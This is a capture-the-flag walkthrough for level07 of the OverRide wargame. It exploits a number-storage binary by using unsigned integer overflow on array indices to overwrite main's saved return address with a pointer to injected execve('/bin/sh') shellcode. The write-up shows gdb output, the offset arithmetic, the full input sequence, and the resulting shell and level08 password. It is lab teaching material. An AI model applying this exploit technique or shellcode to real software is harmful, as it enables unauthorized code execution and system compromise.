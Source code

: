 ***
   level07@OverRide:~$ ./level07
   ----------------------------------------------------
   Welcome to wil's crappy number storage service!
   ----------------------------------------------------
   Commands:
      store - store a number into the data storage
      read  - read a number from the data storage
      quit  - exit the program
   ----------------------------------------------------
      wil has reserved some storage :>
   ----------------------------------------------------

   Input command: store
   Number: 132
   Index: 4
   Completed store command successfully
   Input command: read
   Index: 4
   Number at data[4] is 132
   Completed read command successfully
   Input command: read
   Index: 1
   Number at data[1] is 0
   Completed read command successfully
   Input command: read
   Index: 9999999999999999999999999999999999
   Number at data[4294967295] is 0
   Completed read command successfully
   Input command: store
   Number: 999999999999999999999999999999999
   Index: 2
   Completed store command successfully
   Input command: read
   Index: 2
   Number at data[2] is 4294967295
   Completed read command successfully
   Input command: quit

***

   level07@OverRide:~$ gdb level07
   Non-debugging symbols:
   0x0804842c  _init
   0x08048470  printf
   0x08048470  printf@plt
   0x08048480  fflush
   0x08048480  fflush@plt
   0x08048490  getchar
   0x08048490  getchar@plt
   0x080484a0  fgets
   0x080484a0  fgets@plt
   0x080484b0  __stack_chk_fail
   0x080484b0  __stack_chk_fail@plt
   0x080484c0  puts
   0x080484c0  puts@plt
   0x080484d0  __gmon_start__
   0x080484d0  __gmon_start__@plt
   0x080484e0  __libc_start_main
   0x080484e0  __libc_start_main@plt
   0x080484f0  memset
   0x080484f0  memset@plt
   0x08048500  __isoc99_scanf
   0x08048500  __isoc99_scanf@plt
   0x08048510  _start
   0x08048540  __do_global_dtors_aux
   0x080485a0  frame_dummy
   0x080485c4  clear_stdin
   0x080485e7  get_unum
   0x0804861f  prog_timeout
   0x08048630  store_number
   0x080486d7  read_number
   0x08048723  main
   0x08048a00  __libc_csu_init
   0x08048a70  __libc_csu_fini
   0x08048a72  __i686.get_pc_thunk.bx
   0x08048a80  __do_global_ctors_aux
   0x08048aac  _fini
   (gdb)

***

With this information as well as analysis of assembler dump of functions we can say that:
 
 * All numbers are read with scanf as a uint into data array. Therefore index can be used to move on stack beyond 100 uints and rewrite the return address of main function 

 * At the start of the program all arguments and env variables are deleted. This prevents us from storing shellcode in an env variable as we did before 

* All 3rd indeces are forbidden which is troublesome for writing anything consecutive into the array. But this can be bypassed with uint overflow as pointer arithmetic is used for accessing the array

So the initial plan is to store shellcode in the data array and overwrite eip to jump to our shellcode

For this let's get eip and array addresses on stack:

***

   (gdb) b main
   Breakpoint 1 at 0x8048729
   (gdb) r
   Starting program: /home/users/level07/level07

   Breakpoint 1, 0x08048729 in main ()
   (gdb) info frame
   Stack level 0, frame at 0xffffd710:
   eip = 0x8048729 in main; saved eip 0xf7e45513
   Arglist at 0xffffd708, args:
   Locals at 0xffffd708, Previous frame's sp is 0xffffd710
   Saved registers:
   ebp at 0xffffd708, eip at 0xffffd70c   # eip at 0xffffd70c -  address eip is saved at = main return address

  ***

   # Let's find where array is located

   (gdb) b read_number
   Breakpoint 1 at 0x80486dd
   (gdb) r
   Starting program: /home/users/level07/level07
   ----------------------------------------------------
   Welcome to wil's crappy number storage service!
   ----------------------------------------------------
   Commands:
      store - store a number into the data storage
      read  - read a number from the data storage
      quit  - exit the program
   ----------------------------------------------------
      wil has reserved some storage :>
   ----------------------------------------------------

   Input command: read

   Breakpoint 1, 0x080486dd in read_number ()
   (gdb) x $ebp+0x8              # at this point location of data array is loaded on stack in read_number function
   0xffffd520:     0xffffd544    # 0xffffd544 - array address (altered by gdb with env variables); 0xffffd520 - its place on stack

***

   (gdb) p 0xffffd70c - 0xffffd544     # offset in main of saved return address from the array
   $1 = 456
   (gdb) p 456 / 4                     # divide by step in the array (uint is 4 bytes)
   $2 = 114                            # index of eip in data array
   
   (gdb) p 0xffffd544 - 0xffffd520     # offset between the array and its address pushed on stack 
   $4 = 36

***

Rip Index: 114 % 3 = 0 -> This index is forbidden but we know how to solve this

Runtime array address index: -36 / 4 = -9

To put shellcode into the array we need to translate it into uints (each 4 bytes long):
Shellcode for `execve("/bin/sh")` from [here](https://shell-storm.org/shellcode/files/shellcode-575.html): "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"

hex      | \x6a\x0b\x58\x99  | \x52\x68\x2f\x2f  | \x73\x68\x68\x2f  | \x62\x69\x6e\x89  | \xe3\x31\xc9\xcd    | /x80
4bytes   | 0x99580b6a        | 0x2f2f6852        | 0x2f686873        | 0x896e6962        | 0xcdc931e3          | 0x80
uint     | 2572684138        | 791636050         | 795371635         | 2305714530        | 3452514787          | 128

To put shellcode at the beginning indeces of the array (0-5) we need to get around forbidden ones (0, 3).
For this we use uint overflow:

2**(32) overflows to 0: 
(2**(32) / 4) % 3 = 1 

- Index 0: (2**(32)) / 4 = 1073741824
- Index 3: (2**(32) + (3 * 4)) / 4 = 1073741827
 
To store runtime array address at eip we also has to use this trick:

- Index 114: (2^(32) + (114 * 4)) / 4 = 1073741938

***

   level07@OverRide:~$ ./level07
   ----------------------------------------------------
   Welcome to wil's crappy number storage service!
   ----------------------------------------------------
   Commands:
      store - store a number into the data storage
      read  - read a number from the data storage
      quit  - exit the program
   ----------------------------------------------------
      wil has reserved some storage :>
   ----------------------------------------------------

   Input command: store
   Number: 2572684138
   Index: 1073741824
   Completed store command successfully
   Input command: store
   Number: 791636050
   Index: 1
   Completed store command successfully
   Input command: store
   Number: 795371635
   Index: 2
   Completed store command successfully
   Input command: store
   Number: 2305714530
   Index: 1073741827
   Completed store command successfully
   Input command: store
   Number: 3452514787
   Index: 4
   Completed store command successfully
   Input command: store
   Number: 128
   Index: 5
   Completed store command successfully
   Input command: read
   Index: -9
   Number at data[4294967287] is 4294956388
   Completed read command successfully
   Input command: store
   Number: 4294956388
   Index: 1073741938
   Completed store command successfully
   Input command: quit
   $ whoami
   level08
   $ cat /home/users/level08/.pass
   7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC